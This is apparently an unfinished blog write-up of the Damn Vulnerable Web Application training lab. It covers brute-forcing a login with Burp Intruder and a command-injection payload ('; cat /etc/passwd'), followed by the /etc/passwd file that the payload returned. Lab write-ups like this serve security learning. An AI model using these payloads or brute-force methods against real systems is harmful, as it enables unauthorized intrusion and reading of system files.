 +++
title = "Damn vulnerable-web-app"
slug = "damn-vulnerable-web-app"
[taxonomies]
categories=["vulnerable-web-app"]
tags=["web"]
default_language = "en"
+++

#Brute force

Low:

Running burp intruder with admin as pass and default password wordlist as a payload

Medium:


High:

Running burp intruder and grepping for csrf tokens and default password list as a payload, pitch fork for targeting

#Command Injection

Low:

Right off the bat, passing: ; cat /etc/passwd

{% highlight bash %}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
mysql:x:104:107:MySQL Server,,,:/nonexistent:/bin/false
{% endhighlight %}

Medium:
